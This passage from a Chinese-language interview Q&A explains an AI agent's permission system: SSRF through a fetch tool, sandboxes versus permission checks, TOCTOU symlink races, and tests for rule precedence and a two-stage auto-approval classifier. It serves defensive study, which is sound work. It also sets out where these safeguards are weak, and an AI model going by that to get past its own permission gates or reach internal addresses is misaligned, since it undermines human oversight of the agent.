不安全。它阻止了 `file://` 本地文件泄露，但仍可能访问 localhost、私网、云元数据地址或经过重定向到达敏感目标。

### Q47：什么是 SSRF？

服务端请求伪造是攻击者诱导程序访问本来不应暴露的内部地址或服务。Agent 的 web_fetch 若缺少网络边界，也可能成为 SSRF 通道。

### Q48：权限系统和沙箱有什么区别？

权限系统决定请求是否应该执行；沙箱限制即使执行后最多能访问哪些文件、网络和系统资源。前者可能误判，后者控制最终 blast radius。

### Q49：为什么 mini-claude 不能称为完整安全沙箱？

它仍以当前用户权限直接运行 Shell、文件和网络操作，没有 namespace、Seatbelt、网络隔离和资源配额。

### Q50：什么是 TOCTOU？

Time Of Check To Time Of Use，指检查时资源安全，但执行时资源已经变化。例如权限检查后符号链接被替换，最终写到另一个目标。

### Q51：如何降低 TOCTOU 风险？

规范化并限制路径、控制 symlink、使用文件描述符相对操作、原子写入，并在操作系统沙箱中限制可访问范围。

### Q52：当前权限系统最优先应该改进什么？

未知工具默认 confirm、子 Agent 继承父权限、MCP 风险元数据、路径 canonicalization 和 workspace 边界。这些问题比继续增加几个危险命令正则更关键。

### Q53：如何测试权限优先级？

构造 deny 与 allow 同时命中、Plan Mode 加 allow、bypass 加 deny、dontAsk 危险命令等组合，验证实际结果严格符合优先级表。

### Q54：如何测试路径规则？

覆盖相对路径、绝对路径、`..`、符号链接、大小写差异和不存在文件，验证规则与执行目标使用相同 canonical path。

### Q55：如何测试 Auto Mode？

模拟 fast path、Stage 1 allow、Stage 1 block 后 Stage 2 allow、格式错误、API 异常、连续拒绝阈值、headless fallback 和 Prompt Injection 字符串转义。

### Q56：面试时如何一句话总结这一章？

权限系统是在模型工具决策和真实执行之间建立确定性闸门，并通过 deny 优先、权限模式、用户确认、Auto classifier、文件一致性检查和能力裁剪形成纵深防御，但生产环境仍需要沙箱和完善的外部工具风险模型。
